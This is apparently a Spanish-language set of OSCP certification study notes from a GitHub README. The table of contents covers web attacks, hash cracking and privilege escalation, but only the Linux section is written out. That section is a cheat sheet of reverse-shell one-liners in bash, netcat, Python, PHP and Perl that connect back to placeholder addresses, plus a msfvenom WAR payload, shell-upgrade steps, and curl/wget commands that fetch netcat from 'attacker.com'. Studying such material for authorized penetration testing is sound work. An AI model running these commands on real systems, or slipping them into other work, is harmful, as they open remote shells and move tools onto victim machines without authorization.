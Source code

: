 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [General](#General)
  - [Information Ghatering](#Information-Ghatering)
  - [Web]
    - [Webshells](#Webshells)
    - [LFI](#LFI)
    - [LFI TO RCE](#LFI-TO-RCE)
    - [RFI](#RFI)
    - [JWT](#JWT)
      -[WEAK SECRET](#WEAK-SECRET)
      -[PUBLIC KEY](#PUBLIC-key)
    - [SQLi]
  - [Crackeando hashes]
    - [Hashcat](#Hashcat)
    - [John the Ripper](#John-the-Ripper)
    - [Aplicando Reglas (ver delivery)](#Aplicando-Reglas)
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
    - [Perl](#Perl)
    - [War msfvenom (tomcat manager)](#War)
    - [Groovy (Jenkins console)](#Groovy-(Jenkins-Console)
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Privilege Escalation](#Privilege-Escalation) 
  - [Escapando de Docker](#Escapando-de-Docker)
    - [Forma 1 ver ready]
    - [Forma 2 ver feline]
    - [Forma 3 ver tnb]
    - [Forma 3 ver final de reddish]
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python_t)
      - [Python3](#Python3)
      - [Apache](#Apache)
      - [Php](#PHP_t)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat_t)
    - [/dev/tcp/](#Dev-tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
  - [Bypassing de restricciones al inyectar comandos](#Bypassing-de-restricciones-al-inyectar-comandos)
  - [Bypassing restricted shells (rbash , rzsh,etc)](#Bypassing-restricted-shells-(rbash,rzsh,etc))    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
#### War
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
  ```
#### Perl
  ```bash
  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python_t
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP_t
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat_t
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### Dev tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  cat FileToTransfer > /dev/tcp/targetip/4444 
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
